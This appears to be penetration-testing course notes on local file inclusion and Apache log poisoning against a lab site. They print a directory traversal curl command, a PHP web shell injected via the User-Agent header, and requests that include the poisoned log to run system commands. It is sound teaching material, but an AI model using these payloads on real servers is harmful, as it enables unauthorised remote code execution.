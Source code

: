 Generally, URL encoding is used to convert characters of a web request into a format that can be transmitted over the internet.

### File Inclusion Vulnerabilities

File inclusion vulnerabilities allow us to "include" a file in the application's running code. This means we can use file inclusion vulnerabilities to execute local or remote files.

*Log Poisoning* works by modifying data we send to a web application so that the logs contain executable code. In an LFI vulnerability scenario, the local file we include is executed if it contains executable content. This means that if we manage to write executable code to a file and include it within the running code, it will be executed.

We'll first need to review what information is controlled by us and saved by Apache in the related log.

Use curl to analyze which elements comprise a log entry by displaying the file access.log using the previously-found directory traversal vulnerability. 
```bash
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
```
Before we send a request, we can modify the User Agent in Burp and specify what will be written to the access.log file.

The User-Agent request header is a characteristic string that lets servers and network peers identify the application, operating system, vendor, and/or version of the requesting user agent.
```bash
User-Agent: Mozilla/5.0 (<system-information>) <platform> (<platform-details>) <extensions>
```

Let's start Burp, open the browser, and navigate to the web page. We'll click on the Admin link at the bottom of the page, then switch back to Burp and click on the HTTP history tab. Let's select the related request and send it to Repeater.

We can now modify the User Agent to include the PHP code snippet of the following listing. This snippet accepts a command via the cmd parameter and executes it via the PHP system function on the target system. 
```php
<?php echo system($_GET['cmd']); ?>
```

The PHP code snippet was written to Apache's access.log file. By including the log file via the LFI vulnerability, we can execute the PHP code snippet.

To execute our snippet, we'll first update the page parameter in the current Burp request with a relative path.
```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps HTTP/1.1
```
```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la HTTP/1.1
```

